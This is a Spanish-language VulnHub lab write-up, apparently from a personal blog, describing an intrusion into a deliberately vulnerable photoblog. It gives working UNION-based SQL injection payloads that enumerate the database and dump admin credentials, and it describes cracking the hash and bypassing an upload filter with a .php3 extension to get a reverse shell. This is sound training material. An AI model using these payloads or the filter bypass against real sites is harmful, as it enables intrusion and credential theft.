 ```yaml
---
title: VulnHub - From SQl Injecion to Shell
published: true
---
```


---

[From Sql Injection to Shell - lab](@https://www.vulnhub.com/entry/pentester-lab-from-sql-injection-to-shell,80/)

## Intrusion

Escaneo con Nmap para descubrir puertos abiertos en la máquina.

```bash
nmap 192.168.1.29
Nmap scan report for 192.168.1.29
Host is up (0.0011s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

* 22/tcp open ssh OpenSSH 5.5p1 Debian 6+squeeze2 (protocol 2.0)
* 80/tcp open http Apache httpd 2.2.16 ((Debian))

> El puerto 22 es vulnerable a user enumeration pero, obviamente no es la idea del laboratorio, por lo que seguimos.

![](https://eidd3.github.io/assets/img/FromSQLInjectiontoShell/Untitled.png)

La web es sencilla y no tiene mucho contenido. 

| Home	| Página principal y muestra la ultima foto que se publico |
| test	| Muestra la foto “ruby” y “cthulhu” |
| ruxcon| Muestra la foto “hacker” |
| 2010	| Sin contenido |
| All pictures	| Muestra todas las fotos |
| Admin	| Panel de autenticación |

> Si en el panel de autenticación ponemos ‘ad’, se muestran algunas opciones. No estoy seguro si esto es a propósito para despistar, pero la SQLi no se da a través de este panel.

![](https://eidd3.github.io/assets/img/FromSQLInjectiontoShell/Untitled1.png)

Tanto “test” como “ruxcon” y “2010” tienen un parámetro en la URL que filtra por ID.

![](https://eidd3.github.io/assets/img/FromSQLInjectiontoShell/Untitled2.png)

En este caso, comienzo probando cosas en “test”, que es `id=1`. Si comenzamos a probar cosas en el id, como una comilla simple, nos devuelve un error de SQL y podemos ver el error en la respuesta.

![](https://eidd3.github.io/assets/img/FromSQLInjectiontoShell/Untitled3.png)

La descripción de la máquina ya nos da una idea de que se trata de una inyección SQL, así que con un `order by 10 -- -` comenzamos a tratar de adivinar el número de columnas que nos devuelve la consulta. 

![](https://eidd3.github.io/assets/img/FromSQLInjectiontoShell/Untitled4.png)

Dice “_Unknown_ _column_ ‘10’ _in_ _‘order_ _clause’_” esto es buena señal para seguir probando hasta que coincida con el número de columnas y que la respuesta ya no dé error.

Seguí probando hasta llegar al 4 y la respuesta ya no dio error, por lo que pudimos determinar el número de columnas y ahora con un “union select”, podemos comenzar a combinar datos de otras tablas.

![](https://eidd3.github.io/assets/img/FromSQLInjectiontoShell/Untitled5.png)

Al aplicar el “UNION” attack, podemos ver el número 2 representado en la web, por lo que en ese campo podríamos empezar a sacar información. Podemos probar ver el usuario con `union select 1,user(),3,4-- -` , saber la versión de la base de datos `union select 1,version(),3,4-- -` o saber la base de datos en uso `union select 1,database(),3,4-- -`.

![](https://eidd3.github.io/assets/img/FromSQLInjectiontoShell/Untitled6.png)

![](https://eidd3.github.io/assets/img/FromSQLInjectiontoShell/Untitled7.png)

![](https://eidd3.github.io/assets/img/FromSQLInjectiontoShell/Untitled8.png)

![](https://eidd3.github.io/assets/img/FromSQLInjectiontoShell/Untitled9.png)

Enumeramos las bases de datos existentes.

```sql
1 union select 1,group_concat(schema_name),3,4 from information_schema.schemata-- -
```

![](https://eidd3.github.io/assets/img/FromSQLInjectiontoShell/Untitled10.png)

Como habíamos visto antes, existen “photoblog” e “information_schema”.

Enumeramos las tablas existentes en la base de datos “photoblog”.

```sql
1 union select 1,group_concat(table_name),3,4 from information_schema.tables where table_schema="photoblog"-- -
```

![](https://eidd3.github.io/assets/img/FromSQLInjectiontoShell/Untitled11.png)

Vamos a ver las columnas de la tabla “users”.

```sql
1 union select 1,group_concat(column_name),3,4 from information_schema.columns where table_schema="photoblog" and table_name="users"-- -
```

![](https://eidd3.github.io/assets/img/FromSQLInjectiontoShell/Untitled12.png)

Sabiendo los nombres de las columnas podríamos extraer toda la información con la siguiente consulta.

```sql
1 union select 1,group_concat(login,':',password),3,4 from photoblog.users-- -
```

![](https://eidd3.github.io/assets/img/FromSQLInjectiontoShell/Untitled13.png)

Pasamos el hash por CrackStation y obtenemos la contraseña del administrador.

![](https://eidd3.github.io/assets/img/FromSQLInjectiontoShell/Untitled14.png)

Ingresamos y tenemos un panel para agregar o quitar fotos. 

La idea ahora es poder ejecutar comandos en la máquina. 

![](https://eidd3.github.io/assets/img/FromSQLInjectiontoShell/Untitled15.png)

Si intentamos subir una reverse shell, sale un mensaje que no admite archivos PHP.

![](https://eidd3.github.io/assets/img/FromSQLInjectiontoShell/Untitled16.png)

![](https://eidd3.github.io/assets/img/FromSQLInjectiontoShell/Untitled17.png)

Probando distintas extensiones como “_php-reverse-shell.**php2**_" o “_php-reverse-shell.**php.jpg**_" ,no funcionaban hasta que probé _**.php3**_ y sí se ejecutó el código, dándome una shell, y a partir de ahí ya podía ejecutar comandos en el sistema.

![](https://eidd3.github.io/assets/img/FromSQLInjectiontoShell/Untitled18.png)



